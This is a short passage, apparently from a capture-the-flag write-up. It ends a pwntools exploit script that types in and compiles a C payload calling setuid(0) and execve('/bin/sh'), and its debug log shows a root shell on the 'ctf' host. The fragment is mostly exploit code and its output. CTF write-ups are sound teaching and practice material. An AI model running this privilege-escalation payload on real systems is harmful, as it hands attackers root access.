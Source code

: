 ```python
    for c in payload:
        input_key(c)

    clean()
    compile()

    r.interactive()

if __name__ == "__main__":
    main()
```

```bash
$ ./ex.py
# ...
    b'-----------------------------------------------main() {setuid(0);execve("/bin/sh",0,0);}      \r\n'
    b'                                               \r\n'
    b'-----------------------------------------------\r\n'
    b":compiletmp/c7fd17d084a218713d385deb3df85bd1.c:1:1: warning: return type defaults to 'int' [-Wimplicit-int]\r\n"
    b'    1 | main() {setuid(0);execve("/bin/sh",0,0);}\r\n'
    b'      | ^~~~\r\n'
    b"tmp/c7fd17d084a218713d385deb3df85bd1.c: In function 'main':\r\n"
    b"tmp/c7fd17d084a218713d385deb3df85bd1.c:1:9: warning: implicit declaration of function 'setuid' [-Wimplicit-function-declaration]\r\n"
    b'    1 | main() {setuid(0);execve("/bin/sh",0,0);}\r\n'
    b'      |         ^~~~~~\r\n'
    b"tmp/c7fd17d084a218713d385deb3df85bd1.c:1:19: warning: implicit declaration of function 'execve' [-Wimplicit-function-declaration]\r\n"
    b'    1 | main() {setuid(0);execve("/bin/sh",0,0);}\r\n'
    b'      |                   ^~~~~~\r\n'
    b'# '
# ...
# $ id
[DEBUG] Sent 0x3 bytes:
    b'id\n'
[DEBUG] Received 0x4 bytes:
    b'id\r\n'

[DEBUG] Received 0x2c bytes:
    b'uid=0(root) gid=1000(ctf) groups=1000(ctf)\r\n'
```